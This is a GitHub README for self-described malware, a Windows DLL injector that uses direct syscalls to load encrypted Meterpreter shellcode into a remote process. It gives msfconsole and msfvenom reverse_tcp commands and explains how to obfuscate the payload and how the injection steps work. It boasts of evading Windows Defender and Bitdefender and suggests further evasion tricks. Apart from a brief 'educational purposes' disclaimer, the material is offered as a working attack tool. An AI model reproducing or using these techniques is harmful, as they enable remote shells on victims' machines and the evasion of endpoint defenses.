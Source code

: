 # Direct Syscall DLL Injection
<img src=media/dirsyscall-dll-inj-reshacked-msi.png align="left" width=300>

Dll injector in a remote process using direct system calls resolved dynamically from ntdll.dll, the Dll uses Syscalls to inject encrypted shellcode into the same process, undetected by Windows Defender and Bitdefender. 

This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code

Similar to the simple Process Injection using Syscalls i made earlier, this malware bypasses Windows Api and part of Native api by using direct syscalls, which are CPU instructions (mostly assembly) that transition from user mode to kernel mode. This bypasses AV hooks, EDRs, and reduces static IAT footprint.

Its a more advanced and stealthier version of my previous dll injector, which used Native api functions.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload, alternatively you can just use the already set shellcode in the code (simple messagbox that says xd):
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they raise the entropy levels too much.

### 2) Injector

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it, remember to disable pre compiled headers like phc before compiling:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID iterating through a pre-made linked list of ```SYSTEM_PROCESS_INFORMATION``` structs representing all running processes;
- We allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA using ```LdrGetProcedureAddress```;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

The syscalls replace the classic WinApi and NativeApi functions: 

- First we read the ntdll.dll export table to find the offset for each syscall;
- In the assembly file you can find the stubs for each function, heres an example: ```mov eax, <syscall_number>```;
- Then we store the syscall numbers globally in ```injection.h```;
- Each variable stores the runtime-resolved number of every Nt* function;
- When using any function we just call the syscall: ```Status = NtOpenProcess(&ProcessHandle, PROCESS_ALL_ACCESS, &OA, &CID)```;

### 3) DLL

The syscalls are used both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll.dll``` functions are sometimes less likely to be hooked by EDRs at user level, because most interactions with the target are done via direct system calls resolved dynamically from ntdll.dll, we should theoreticall bypass any user-mode hooks.

- In order to use Ntdll and syscalls we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- To avoid loader lock issues, a small thread is spawned immediately after the DLL being attached;
- When the library is attached to the process, it decodes the obfuscated shellcode, allocates memory for it, writes it into this memory chunk, and sets the correct permissions;
- Finally it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.


# 🛡 AV Detection

This malware successfully bypasses Windows Defender and Bitdefender!!! 😊 yeee

But AVs look for certain patterns like creating a thread right after execution, so the exe is still detectable by strong AVs or industrial level firewalls...

Here's the DLL, the raw one and the one obfuscated by inserting ntdll metadata into it.

<img src=media/dirsyscall-dll.png align="left" width=300>

<img src=media/dirsyscall-dll-reshacked.png align="left" width=300>

Here's the injector, the raw one, the one obfuscated by inserting vs_community metadata into it, and the MSI wrapped version.

You can obfuscate it even more using tools like soggoth, or by turning it into an iso/linker file, or by using multiple stagers.

The raw one gets more detection than the classic process injection because it extracts the dll and writes it on disk, in the future i will try to inject it directly into the target process with a technique known as manual mapping.

<img src=media/dirsyscall-dll-inj.png align="left" width=300>

<img src=media/dirsyscall-dll-inj-reshacked.png align="left" width=300>

<img src=media/dirsyscall-dll-inj-reshacked-msi.png align="left" width=300>
